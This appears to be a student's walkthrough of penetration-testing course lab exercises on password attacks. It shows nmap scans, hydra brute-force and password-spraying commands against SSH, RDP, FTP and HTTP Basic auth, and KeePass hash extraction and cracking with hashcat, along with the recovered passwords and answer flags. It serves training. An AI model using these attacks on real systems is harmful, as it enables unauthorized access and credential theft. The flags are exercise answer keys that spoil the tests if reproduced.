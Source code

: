 

# 15.1.1 Network Services


1. Follow the steps outlined in this section to leverage a dictionary attack to get access to SSH (port 2222) on VM #1 (BRUTE). Find the flag in the _george_ user's home directory.

```bash
# Enumerate
sudo nmap -Pn 192.168.241.201
	PORT     STATE SERVICE
	22/tcp   open  ssh
	2222/tcp open  EtherNetIP-1

sudo nmap -sV 192.168.241.201
	PORT     STATE SERVICE VERSION
	2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Use hydra
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.241.201
	[2222][ssh] host: 192.168.241.201   login: george   password: chocolate

# Login
ssh george@192.168.241.201 -p 2222
	password:   chocolate
```

> Answer:  OS{5042809f26d448f022f68490b351794d}



2. Follow the steps outlined in this section to leverage a dictionary attack to gain access to RDP on VM #2 (BRUTE2). Find the flag on either one of the user's desktops. To reduce the time it takes to perform the password spraying, you can create a list with the two usernames _justin_ and _daniel_.

```bash
# Enumerate
sudo -Pn 192.168.241.202
	PORT     STATE SERVICE
	21/tcp   open  ftp
	135/tcp  open  msrpc
	139/tcp  open  netbios-ssn
	445/tcp  open  microsoft-ds
	3389/tcp open  ms-wbt-server
	8000/tcp open  http-alt

# Password spray attack
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.241.202
	[3389][rdp] host: 192.168.241.202   login: justin   password: SuperS3cure1337#
	[3389][rdp] host: 192.168.241.202   login: daniel   password: SuperS3cure1337#

# Login
rdesktop 192.168.241.202 -u justin -p SuperS3cure1337#
```

> Answer:  OS{6527425c127b4b1f5938d30c9187ecff}



3. Enumerate VM #3 (BRUTE2) and find another network service. Use the knowledge from this section to get access as the _itadmin_ user and find the flag.

```bash
# Enumerate
sudo nmap -Pn 192.168.241.202
	PORT     STATE SERVICE
	21/tcp   open  ftp
	135/tcp  open  msrpc
	139/tcp  open  netbios-ssn
	445/tcp  open  microsoft-ds
	3389/tcp open  ms-wbt-server
	8000/tcp open  http-alt

# Attack
hydra ftp://192.168.241.202 -l itadmin -P /usr/share/wordlists/rockyou.txt
	[21][ftp] host: 192.168.241.202   login: itadmin   password: hellokitty

# Connect to ftp
ftp 192.168.241.202                                                             
	Connected to 192.168.241.202.
	220-FileZilla Server 1.4.1
	220 Please visit https://filezilla-project.org/
Name (192.168.241.202:kali): itadmin
	331 Please, specify the password.
Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
ftp> ls
	229 Entering Extended Passive Mode (|||52238|)
	150 Starting data transfer.
	-rw-rw-rw- 1 ftp ftp             282 Jun 09  2022 desktop.ini
	-rw-rw-rw- 1 ftp ftp              38 Mar 30 06:01 flag.txt
	226 Operation successful
ftp> get flag.txt
ftp> exit

cat flag.txt
```

> Answer:  OS{df4abd9eb8e51b1ce81dcbc9635535d4}


# 15.1.2 HTTP Post

2. The web page on VM #2 is password protected. Use Hydra to perform a password attack and get access as user _admin_. Once you have identified the correct password, enter it as answer to this exercise.

```bash
# Enumerate
sudo nmap -Pn 192.168.227.201
	PORT   STATE SERVICE REASON
	22/tcp open  ssh     syn-ack ttl 61
	80/tcp open  http    syn-ack ttl 60
```

- Open Burp and turn proxy on
- Navigate to site
- Login user:pass
- Take note of request body and failed login identifier
![](15.1.2.2ex_http_invalid.png)

- As it's only a GET request, research how to use **hydra's** http-get for Basic Authentication
- https://notes.benheater.com/books/hydra/page/brute-force-http-basic-authentication-with-hydra
```bash
hydra -U http-get
	Help for module http-get:
	============================================================================
	Module http-get requires the page to authenticate.
	The following parameters are optional:
	 (a|A)=auth-type   specify authentication mechanism to use: BASIC, NTLM or MD5
	 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
	 (F|S)=check for text in the HTTP reply. S= means if this text is found, a
	       valid account has been found, F= means if this string is present the
	       combination is invalid. Note: this must be the last option supplied.
	For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```

- Craft attack
```bash
hydra -I -l admin -P /usr/share/wordlists/rockyou.txt "http-get://192.168.227.201:80/:A=BASIC:F=401"
	[80][http-get] host: 192.168.227.201   login: admin   password: 789456]
```

> Answer:  789456



# 15.2.4 Password Manager

2. Enumerate VM #2 and get access to the system as user _nadine_. Obtain the password stored as title "flag" in the password manager.
```bash
# Enumerate
sudo nmap -Pn -vv -n -p- 192.168.212.227 --max-scan-delay=0 
	PORT      STATE SERVICE       REASON
	135/tcp   open  msrpc         syn-ack ttl 125
	139/tcp   open  netbios-ssn   syn-ack ttl 125
	445/tcp   open  microsoft-ds  syn-ack ttl 125
	3389/tcp  open  ms-wbt-server syn-ack ttl 125
	5040/tcp  open  unknown       syn-ack ttl 125
	49664/tcp open  unknown       syn-ack ttl 125
	49665/tcp open  unknown       syn-ack ttl 125
	49666/tcp open  unknown       syn-ack ttl 125
	49667/tcp open  unknown       syn-ack ttl 125
	49668/tcp open  unknown       syn-ack ttl 125
	49669/tcp open  unknown       syn-ack ttl 125
	49670/tcp open  unknown       syn-ack ttl 125
	49671/tcp open  unknown       syn-ack ttl 125

sudo nmap -sCV -p 135,139,445,3389,5040,49664,49665,49666,49667,49668,49669,49670,49671 192.168.212.227
	PORT      STATE SERVICE            VERSION
	135/tcp   open  msrpc              Microsoft Windows RPC
	139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds?
	3389/tcp  open  ssl/ms-wbt-server?
	| rdp-ntlm-info: 
	|   Target_Name: MARKETINGWK02
	|   NetBIOS_Domain_Name: MARKETINGWK02
	|   NetBIOS_Computer_Name: MARKETINGWK02
	|   DNS_Domain_Name: marketingwk02
	|   DNS_Computer_Name: marketingwk02
	|   Product_Version: 10.0.22000
	|_  System_Time: 2024-04-01T22:19:08+00:00
	|_ssl-date: 2024-04-01T22:19:23+00:00; +1s from scanner time.
	| ssl-cert: Subject: commonName=marketingwk02
	| Not valid before: 2024-03-31T22:09:20
	|_Not valid after:  2024-09-30T22:09:20
	5040/tcp  open  unknown
	49664/tcp open  msrpc              Microsoft Windows RPC
	49665/tcp open  msrpc              Microsoft Windows RPC
	49666/tcp open  msrpc              Microsoft Windows RPC
	49667/tcp open  msrpc              Microsoft Windows RPC
	49668/tcp open  msrpc              Microsoft Windows RPC
	49669/tcp open  msrpc              Microsoft Windows RPC
	49670/tcp open  msrpc              Microsoft Windows RPC
	49671/tcp open  msrpc              Microsoft Windows RPC
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
	
	Host script results:
	| smb2-time: 
	|   date: 2024-04-01T22:19:13
	|_  start_date: N/A
	| smb2-security-mode: 
	|   3:1:1: 
	|_    Message signing enabled but not required
```

- Attack RDP
```bash
hydra -l nadine -P /usr/share/wordlists/rockyou.txt rdp://192.168.212.227
	[3389][rdp] host: 192.168.212.227   login: nadine   password: 123abc

# Login
xfreerdp /cert-ignore /compression /auto-reconnect /u:nadine /p:123abc /v:192.168.212.227 /drive:test,/home/kali/exercises/ 
```

- Check for KeePass (it's there)
- Find DB file
```powershell
C:\>dir /s *.kdbx
	 Volume in drive C has no label.
	 Volume Serial Number is 1682-A2A3
	
	 Directory of C:\Users\nadine\Documents
	
	06/09/2022  10:39 AM             1,966 Database.kdbx
	               1 File(s)          1,966 bytes
	
	     Total Files Listed:
	               1 File(s)          1,966 bytes
	               0 Dir(s)   1,184,964,608 bytes free
```

- Transfer *Database.kdbx* file to Kali & crack
```bash
keepass2john Database.kdbx > keepass.hash

# Remove prepend of 'Database:'
vim keepass.hash

cat keepass.hash
	$keepass$*2*1*0*b1a85c5029830d00eead372eff9b2c0c5f2b78d8adf6090568429ba7b9622f25*27ab0d96aaacbb427dc6e9746fcf5148a468d042855186d3d1409d40ca018fa1*2eb108ae671a4aebcfa4217b5dcdccdc*ea47adcf48185eb7d670b25a3b2f8a535eb72339bbdf2e0d05c892bad22287f0*e250173255fbe9861707502ebef385c839fd328dac2f7874ff3b0bfc13cf4b56

# Crack
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule
	$keepass$*2*1*0*b1a85c5029830d00eead372eff9b2c0c5f2b78d8adf6090568429ba7b9622f25*27ab0d96aaacbb427dc6e9746fcf5148a468d042855186d3d1409d40ca018fa1*2eb108ae671a4aebcfa4217b5dcdccdc*ea47adcf48185eb7d670b25a3b2f8a535eb72339bbdf2e0d05c892bad22287f0*e250173255fbe9861707502ebef385c839fd328dac2f7874ff3b0bfc13cf4b56:pinkpanther1234
```

- Use `pinkpanther1234` for KeePass Master Password & get flag

> Answer:  `eSGJIzUp5nrr834QZBWK`



# 15.2.5 SSH Private Key Passphrase

